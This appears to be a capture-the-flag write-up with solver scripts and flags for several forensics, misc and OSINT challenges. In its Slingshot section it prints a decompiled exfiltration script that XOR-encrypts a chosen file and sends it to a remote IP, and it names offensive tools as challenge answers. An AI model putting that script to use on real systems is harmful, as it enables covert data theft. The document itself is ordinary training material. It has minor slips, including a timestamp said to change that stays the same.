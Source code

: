 ## FORENSICS

### Bad Blood
```py
from pwn import *

while True:
    io = remote("chal.pctf.competitivecyber.club", 10001)

    solutions = [
        b"Invoke-P0wnedshell.ps1",
        b"Invoke-UrbanBishop.ps1",
        b"WinRM",
        b"Covenant"
    ]
    for solution in solutions:
        io.sendlineafter(b">> ", solution)

    io.interactive()

    io.close()
```

**pctf{3v3nt_l0gs_reve4l_al1_a981eb}**



## Slingshot

Exporting files from all packets in Wireshark will result in many files called %, etc and one called download.pyc
This file can be decompiled to python using [PyLingual](https://pylingual.io/view_chimera?identifier=b8c58f248600bfa1f83337bd7bb8f6f5a64a16219e56db0e3a2257ca23afc623):

```py
# Source timestamp: 2024-09-17 17:47:38 UTC (1726595258)
import sys
import socket
import time
import math

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
file = sys.argv[1]
ip = sys.argv[2]
port = 22993

with open(file, 'rb') as r:
    data_bytes = r.read()

current_time = time.time()
current_time = math.floor(current_time)
key_bytes = str(current_time).encode('utf-8')
init_key_len = len(key_bytes)
data_bytes_len = len(data_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]
encrypt_bytes = bytes((a ^ b for a, b in zip(key_bytes, data_bytes)))

s.connect((ip, port))
s.send(encrypt_bytes)
```

The program connects to some ip using port `22993`. Follow the TCP stream for traffic at this port in Wireshark to get the output from the python program. The python program can now be reversed with ChatGPT to get the original file.
There is only one problem. The timestamp for when the program was run is needed to decrypt the message. What we have so far is the timestamp for when the file was created.

To get the correct timestamp first try the timestamp `1726595769` and look at the output. The output is very close to correct, but there are some wierd artifacts. We just need to adjust one number at the time until the words of the file are readably correct. We end up with the timestamp `1726595769`:

```py
import socket

# Open file
with open("dump2.bin", 'rb') as f:
    encrypted_bytes = f.read()

# Timestamp
key_bytes = "1726595769".encode('utf-8')
init_key_len = len(key_bytes)
data_bytes_len = len(encrypted_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]

# Decrypt using XOR
decrypted_bytes = bytes((a ^ b for a, b in zip(key_bytes, encrypted_bytes)))

# Optionally, save the decrypted data to a file
with open("flag.png", 'wb') as f:
    f.write(decrypted_bytes)
```

This creates an image with the flag printed on to it-.

**PCTF{1f_y0o_41n7_f1r57_y0ur3_l457}**



## MISC

### Emoji Stack

To avoid making it too complivated I desided to try to translate it to Brainfuck. This python script convert the emojies to Brainfuck syntax. Then I ran it in this online [Brainfuck interpreter](https://sange.fi/esoteric/brainfuck/impl/interp/i.html).

```py
code = "👉👉👉👉👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁08👍🔁34👈👈👈👈👈👈👈👈👈👈👍🔁48👉🔁15👍🔁5e👈🔁07👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁02👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👍🔁42👉🔁02👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁17👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈🔁14👍🔁20👉🔁06👍🔁51👉🔁0c👍🔁34👉👉👍🔁46👈🔁14👍🔁4d👈🔁01👍🔁51👉🔁04👍🔁20👉🔁03👍🔁2f👉👉👉👉👉👉👉👉👍🔁4d👈🔁17👍🔁42👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👍🔁7c👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁0c👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈👈👈👈👈👈👈👈👈👈👈👈👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁0c👍🔁32👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁04👍🔁5e👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👍🔁47👈🔁0f👍🔁46👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈🔁03👍🔁20👈🔁08👍🔁5e👉🔁10👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈🔁1d👍🔁40👉🔁10👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉👉👉👉👍🔁5e👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬"

code = code.replace("👉", ">")
code = code.replace("👈", "<")
code = code.replace("👍", "+")
code = code.replace("👍", "+")
code = code.replace("💬", ".")

while True:
    try:
        index = code.find("🔁")
        symbol = code[index-1]
        count = int(code[index+1:index+3],16)
        code = code[:index] + symbol*count + code[index+3:]
        print(count)
    except ValueError:
        break
print(code)
```

**CACI{TUR!NG_!5_R011!NG_!N_H!5_GR@V3}**


### Making Baking Pancakes

```
Welcome to the pancake shop!
Pancakes have layers, we need you to get through them all to get our secret pancake mix formula.
This server will require you to complete 1000 challenge-responses.
A response can be created by doing the following:
1. Base64 decoding the challenge once (will output (encoded|n))
2. Decoding the challenge n more times.
3. Send (decoded|current challenge iteration)
Example response for challenge 485/1000: e9208047e544312e6eac685e4e1f7e20|485
Good luck!
```

```py
from pwn import *

io = remote("chal.pctf.competitivecyber.club", 9001)

for i in range(1000):
    # Read challenge
    io.recvuntil(b"Challenge: ")
    challenge = b64d(io.recvline())
    challenge = challenge.split(b"|")
    
    # Read challenge number
    io.recvuntil(b"(")
    chall_num = io.recvuntil(b"/", drop=True)
    
    # Decrypt n times
    for n in range(int(challenge[1])):
        challenge[0] = b64d(challenge[0]).decode("utf-8")

    # Concat answer
    answer = (challenge[0] + "|" + str(int(chall_num))).encode('utf-8')
    print(answer)

    # Send answer
    io.sendlineafter(b">>", answer)

io.interactive()
```

**pctf{store_bought_pancake_batter_fa82370}**


## OSINT

### Night School

As the name inplies it should be a School and it should be in Fairfax. Therefor the search query was `George Mason University statues three`.

**PCTF{Communitas}**
